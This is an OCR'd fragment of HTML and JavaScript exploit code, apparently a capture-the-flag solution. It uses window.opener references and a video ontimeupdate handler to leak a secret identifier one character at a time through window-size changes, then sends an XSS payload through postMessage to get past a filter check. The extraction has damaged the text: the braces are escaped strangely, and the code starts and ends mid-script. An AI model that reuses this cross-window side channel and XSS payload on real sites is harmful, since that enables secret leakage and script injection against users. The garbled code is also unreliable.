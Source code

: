 ```
              &lt;video muted loop autoplay src=https://www.w3schools.com/jsref/mov_bbb.mp4 
                ontimeupdate=window.opener.name&lt;identifier?poc.height++:poc.width++&gt;`
            ),
          "_blank"
        );
      `}`
    &lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;
```

```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
  &lt;head&gt;
    &lt;link rel="icon" href="data:;base64,iVBORw0KGgo=" /&gt;
  &lt;/head&gt;
  &lt;body&gt;
    &lt;script&gt;
      let lastHeight = 101;
      let lastWidth = 101;
      const chars = "0123456789abcdefghijklmnopqrstuvwxyz`{`".split("");
      let solvedIdentifier = "";

      let checks = 0;
      let checksNeeded = 15;

      function trySolve() `{`
        try `{`
          window.parent.postMessage(
            `{`
              type: "waf",
              identifier: solvedIdentifier,
              safe: true,
              str: "&lt;img src=x onerror=alert('flag`{`THIS_IS_THE_FLAG`}`')&gt;",
            `}`,
            "*"
          );
        `}` catch (e) `{``}`
      `}`

      async function foundChar(char) `{`
        console.log("FOUND CHAR: ", char);
        solvedIdentifier = `$`{`solvedIdentifier`}`$`{`char`}``;
        console.log("TOTAL SOLVED", solvedIdentifier);
        await window.parent.opener.opener.setIdentifier(`$`{`solvedIdentifier`}`1`);

        if (solvedIdentifier.length &gt; 12) trySolve();
      `}`

      let locked = false;
      setInterval(async () =&gt; `{`
        const `{` innerHeight, innerWidth `}` = window;
        if (innerHeight === lastHeight &amp;&amp; innerWidth === lastWidth) `{`
          return;
        `}`
        checks++;
        if (checks &lt; checksNeeded || checks % checksNeeded !== 0) `{`
          return;
        `}`
        const currentIdentifier = window.parent.opener.opener.getIdentifier();

        if (solvedIdentifier.length &gt;= currentIdentifier.length) `{`
          return;
```